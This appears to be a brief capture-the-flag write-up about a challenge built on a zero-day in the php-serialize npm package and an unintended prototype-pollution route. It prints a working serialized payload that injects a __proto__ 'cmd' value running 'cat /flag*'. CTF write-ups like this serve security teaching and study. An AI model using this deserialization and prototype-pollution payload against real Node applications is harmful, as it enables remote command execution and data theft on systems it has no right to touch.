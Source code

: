
## Zero Day Info

This challenge takes advantage of an undisclosed (at the time of the competition) zero day vulnerability on the `php-serialize` [npm package](https://www.npmjs.com/package/php-serialize). But is also had an unintended solution using a prototype pollution.

## Exploit

Example payload from one of the first solvers (feasto), using the unintended:
```
O:7:"Command":2:{s:3:"sig";s:64:"5f05044907877d170b1cff58710866ed020b7bbaa71e65d1c73fe8ddaec26f77";s:6:"params";a:2:{s:4:"path";s:15:"/app/server.log";s:9:"__proto__";a:1:{s:3:"cmd";s:10:"cat /flag*";}}}
```

(it has to be base64 encoded)
